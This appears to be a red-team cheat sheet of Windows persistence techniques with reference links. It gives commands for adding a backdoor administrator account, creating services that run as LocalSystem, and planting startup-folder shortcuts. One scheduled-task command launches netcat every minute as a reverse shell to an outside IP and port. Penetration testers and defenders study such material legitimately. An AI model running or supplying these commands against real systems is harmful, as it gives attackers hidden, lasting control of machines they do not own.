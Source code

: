 ## Create User:  
**Create user (CMD)**: net user username password /add  
**Add user to group (CMD)**: net localgroup Administrators username /add  
**Add user to group (Powershell)**: Add-LocalGroupMember -Group Administrators -Member username  

## Scheduled Tasks:  
**Local scheduled tast**: schtasks /create /sc minute /mo 1 /tn "Reverse shell" /tr 'c:\Users\User\Downloads/nc.exe <IP> <PORT> -e cmd.exe'  
**Create remote scheduled task**: schtasks /create /s "PC-NAME" /tn "My App" /tr "PATH" /sc minute /mo 1 /u Domain\User /p password  
**Logon Scripts**: schtasks /create /sc onlogon /tn "task-name" /tr "File or App PATH" /RU  "username"  

## Create Service:
sc create (service name) binpath= "cmd.exe /k C:\temp\pentestlab.exe" start="auto" obj="LocalSystem"  
sc start (service name)  

## Startup Folder:
**Add files/executables/links to user startup folder**: C:\Users\username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\rev.lnk  

## Abandoned processes:  
**Try to find processes with procmon.exe what statos is NOT_FOUND**.  
  
## Aditional Informaion:  
**Windows Tasks**:  
1. https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/  
2. https://dmfrsecurity.com/2021/09/07/scheduled-task-persistence/  
  
**Windows Registry**:  
1. https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/  
  
**Services**:
1. https://pentestlab.blog/2019/10/07/persistence-new-service/  
2. https://dmcxblue.gitbook.io/red-team-notes/persistence/new-service  

**Sturtup Folder**:  
1. https://dmcxblue.gitbook.io/red-team-notes/persistence/registry-keys-startup-folder  
2. https://stmxcsr.com/persistence/looking-at-the-startup-directory.html  

